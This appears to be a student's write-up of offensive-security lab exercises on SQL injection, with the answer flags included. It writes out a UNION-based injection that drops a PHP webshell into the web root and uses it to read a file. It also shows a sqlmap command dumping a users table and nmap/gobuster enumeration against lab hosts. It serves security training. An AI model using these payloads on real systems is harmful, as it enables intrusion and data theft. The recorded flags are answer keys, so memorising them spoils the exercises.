 

2. Connect to the MySQL VM 2 and repeat the steps illustrated in this section in order to manually exploit the UNION-based SQLi.
	   Once you have obtained a webshell, gather the flag that is located in the same **tmp** folder.

- Auth bypass
![](10ex_authBypass.png)

- Find # of columns
```sql
' order by 1-- -
```
![](10ex_orderby6.png)

- Insert webshell
```sql
%' union select "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php"-- 
```

- Cat flag
```bash
# In URL
http://192.168.246.19/tmp/webshell.php?cmd=cat%20flag.txt
```


> Answer:  OS{42b86739388422346bc1c9f4e730d3aa}



3. Connect to the MySQL VM 3 and automate the SQL injection discovery via sqlmap as shown in this section. 
	   Then dump the _users_ table by abusing the time-based blind SQLi and find the flag that is stored in one of the table's records.

**\*\*NOTE:**  Nowhere in the app does it state/ suggest that there's a */blindsqli.php* site to navigate to.
- FURTHERMORE, */blindsqli.php* immediately redirects to *login1.php?msg=2*  which is not vulnerable.  So the "as shown in this section" is a specific, literal direction

```bash
# Warning:  takes easily over an hour
sqlmap -u http://192.168.221.19/blindsqli.php?user=u -p user -T users --dump --threads=10
```

> Answer:  OS{afe2bd417dc053792c45c5937199f396}



4. **Capstone Exercise**: Enumerate the Module Exercise - VM #1 and exploit the SQLi vulnerability in order to get the flag.
	   Hint: To enhance the attack efficiency, it's recommended to manually identify the injection point before deploying any automated tool
		someone's write-up:   https://medium.com/@mhwee/sqli-in-wp-perfect-survey-plugin-f5823379317a

- Enumerating yielded nothing special
```bash
nmap -Pn 192.168.221.47
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http

gobuster dir -u http://192.168.221.47 -w /usr/share/wordlists/dirb/common.txt
	/css                  (Status: 301) [Size: 314] [--> http://192.168.221.47/css/]
	/images               (Status: 301) [Size: 317] [--> http://192.168.221.47/images/]
	/index.html           (Status: 200) [Size: 15405]
	/js                   (Status: 301) [Size: 313] [--> http://192.168.221.47/js/]
```
